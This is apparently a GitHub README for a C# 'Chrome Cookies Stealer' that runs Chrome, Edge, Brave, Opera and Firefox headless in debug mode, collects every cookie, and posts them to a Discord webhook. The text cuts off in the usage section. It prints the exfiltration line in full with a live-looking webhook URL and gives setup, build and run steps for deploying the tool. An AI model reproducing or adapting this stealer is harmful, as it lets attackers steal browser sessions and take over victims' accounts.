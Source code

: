 # Documentation: Chrome Cookies Stealer

## Table of Contents

- [Overview](#overview)
- [Features](#features)
- [How It Works](#how-it-works)
- [Configuration](#configuration)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
- [Code Walkthrough](#code-walkthrough)
- [Important Notes](#important-notes)
- [Disclaimer](#disclaimer)

---

## Overview

The **Chrome Cookies Stealer** is a proof-of-concept tool designed to extract cookies from various web browsers (Chrome, Edge, Brave, Opera, and Firefox) by leveraging their debugging protocols. It collects cookies and sends them to a specified webhook for further analysis.

---

## Features

- Detects installed browsers and retrieves their cookies.
- Uses WebSocket debugging protocols to fetch cookies.
- Sends collected cookies to a predefined webhook.
- Supports multiple browsers:
  - Google Chrome
  - Microsoft Edge
  - Brave Browser
  - Opera
  - Mozilla Firefox

---

## How It Works

1. **Browser Detection**:
   - Checks for the installation of supported browsers by verifying the existence of their binaries.

2. **Browser Launch**:
   - Starts the browser in headless mode with debugging enabled on a specific port.

3. **Cookie Retrieval**:
   - Connects to the browser's debugging WebSocket endpoint and retrieves all cookies using `Network.getAllCookies`.

4. **Cookie Transmission**:
   - Formats the retrieved cookies and sends them to a predefined webhook URL.

5. **Browser Cleanup**:
   - Closes the browser after collecting cookies.

---

## Configuration

The tool includes a configuration dictionary (`CONFIGS`) specifying paths to the browser binaries and user data directories. Modify this dictionary if needed to suit your environment.

1. Set webhook in the webhook line 
 ```c#
   var response = await client.PostAsync("https://discordapp.com/api/webhooks/1308546230552367154/DlExX-i3vC5ThAkCKfAHNKfDb3hJSegMQYKpGMaWHAxBru2ELvDMydR4RTyVPm_mAKfM", form);
 ```
 
 2. compile the project
---

## Prerequisites

1. .NET Core or .NET Framework installed on the system.
2. The following NuGet packages:
   - [Newtonsoft.Json](https://www.nuget.org/packages/Newtonsoft.Json)
   - [WebSocketSharp](https://github.com/sta/websocket-sharp)
3. Supported browsers installed on the system.

---

## Usage

1. Clone or download the project.
2. Build the project using your preferred IDE or command-line tool.
3. Run the application:
   ```bash
   dotnet run
